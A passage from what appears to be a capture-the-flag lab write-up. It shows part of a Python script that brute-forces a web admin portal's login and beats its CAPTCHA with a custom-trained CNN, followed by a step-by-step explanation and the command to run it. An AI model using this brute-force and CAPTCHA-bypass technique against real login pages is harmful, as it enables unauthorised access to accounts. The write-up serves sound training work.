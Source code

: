     #Submit our brute force attack
    r = sess.post(website_url, data=website_data)

    #Read the response and interpret the results of the brute force attempt
    response = r.text

    #If the response tells us that we submitted the wrong CAPTCHA, we have to try again with this password
    if ("Incorrect CAPTCHA value supplied" in response):
        print ("[-] Incorrect CAPTCHA value was supplied. We will resubmit this password")
        continue
    #If the response tells us that we submitted the wrong password, we can try with the next password
    elif ("Incorrect Username or Password" in response):
        print ("[-] Invalid credential pair -- Username: " + username + " Password: " + password)
        count += 1
    #Otherwise, we have found the correct password!
    else:
        print ("[+] Access Granted!! -- Username: " + username + " Password: " + password)
        access_granted = True
```

Let’s dive into what this script is doing:

First, we load the libraries that will be used. We’ll mainly make use of Python’s request library to make the web requests on our behalf.

Next, we load our password list, which will be used for the brute force attacks.

In a loop, we will perform our brute force attack, which consists of the following steps:

Make a request to the HQ admin portal to get the cookie values and CAPTCHA image.

Submit the CAPTCHA image to our hosted CNN model.

Determine if the prediction accuracy of the CNN model was high enough to submit the CAPTCHA attempt.

Submit a brute force request to the HQ admin portal with the username, password, and CAPTCHA attempt.

Read the response from the HQ admin portal to determine what to do next.

Let’s run our brute force attack using the following command in a terminal window:

cd ~/Desktop/bruteforcer && python3 bruteforce.py

Let it run for a minute or two, and you will regain access to the HQ admin portal!

Conclusion

In this task, we have shown how ML can be used for red teaming purposes. We have also demonstrated how we can create custom scripts to perform tasks such as brute forcing the authentication of a web application. All we need is a spark of creativity! While we could have taken a pre-trained model such as Tesseract-OCR, it wouldn’t have been nearly as accurate as one trained specifically for the task at hand. This is true for most ML applications. While generic models will work to some degree, it’s often better to train a new model for the specific task we’re tackling.

Now that you’ve had a taste of what is possible, the sky’s the limit!

**Q/A**

![answers](https://github.com/schoto/Advent-of-Cyber-2023/assets/69323411/b4cd13e5-c8f3-4fba-8600-978e6dfc70af)
